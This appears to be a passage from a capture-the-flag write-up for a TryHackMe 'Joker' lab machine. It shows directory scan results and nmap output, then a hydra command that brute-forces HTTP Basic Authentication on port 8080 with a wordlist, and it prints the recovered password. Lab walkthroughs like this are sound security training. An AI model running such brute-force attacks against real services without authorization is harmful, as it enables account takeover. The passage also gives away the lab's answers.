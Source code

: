 ```
/.hta.html (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/css (Status: 301)
/img (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/phpinfo.php (Status: 200)
/phpinfo.php (Status: 200)
/secret.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/10/08 20:05:04 Finished
===============================================================
```

`secret.txt`

5. There is another file which reveals information of the backend, what is it?

`phpinfo.php`

1. When reading the secret file, We find with a conversation that seems contains at least two users and some keywords that can be intersting, what user do you think it is?

- [http://10.10.252.64/secret.txt](http://10.10.252.64/secret.txt)

```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

2. What port on this machine need to be authenticated by Basic Authentication Mechanism?

```
8080/tcp open  http    Apache httpd 2.4.29
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Please enter the password.
```

3. At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?

```
kali@kali:~/CTFs/tryhackme/HA Joker CTF$ hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 10.10.252.64 -m / http-get
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-08 20:10:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.252.64:8080/
[8080][http-get] host: 10.10.252.64   login: joker   password: hannah
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-08 20:10:47
```
